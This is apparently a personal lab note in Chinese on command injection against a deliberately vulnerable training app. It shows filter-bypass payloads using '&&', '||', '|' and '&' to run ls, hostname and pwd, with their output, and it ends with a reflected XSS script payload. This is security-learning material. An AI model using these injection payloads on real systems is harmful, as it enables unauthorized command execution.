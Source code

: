 # Command Injection

加上 `;` 這招無效了，只好試試其他方式

假設他有做一些過濾，會移除掉一些符號，那麼如何利用合法的方式讓它執行我想要的指令 ?

```bash
8.8.8.8 && 1.1.1.1
```
```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=37 time=35.184 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=37 time=9.613 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=37 time=29.270 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=37 time=80.921 ms
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 9.613/38.747/80.921/26.124 ms
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=8.295 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=48.083 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=86.008 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=8.431 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 8.295/37.704/86.008/32.260 ms
```
看起來可行

沒有過濾 `&&` 那應該可以進一步試試

```bash
&& 1.1.1.1
```
```
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=18.062 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=8.199 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=22.774 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=11.311 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 8.199/15.087/22.774/5.693 ms
```

```
PING 1.1.1.1 (1.1.1.1): 56 data bytes
64 bytes from 1.1.1.1: icmp_seq=0 ttl=37 time=9.902 ms
64 bytes from 1.1.1.1: icmp_seq=1 ttl=37 time=10.778 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=37 time=10.773 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=37 time=10.117 ms
--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 9.902/10.393/10.778/0.390 ms
```

失敗

```bash
1.1.1.1 && ls
```

### Done

多試幾次後，運氣好猜中， `||` , `|`, `&`

### or
```bash
||hostname
# 91ab8a5e75e3
```

### pipline
```bash
|ls
#help
#index.php
#source
```

### background job
```bash
&pwd 
#/var/www/html/vulnerabilities/exec
```

### XSS
這邊有 client side reflected XSS
```html
&echo "<script>alert(1)</script>"
```

![這邊有 client side reflected XSS](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/fca5ac85-25c8-4d6b-b0f8-95ac06a1af23/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042730Z&X-Amz-Expires=86400&X-Amz-Signature=44e621fb82de0d9e1edcc24e61f12cef66919f6128713cf7ac85a4ac61106ebc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

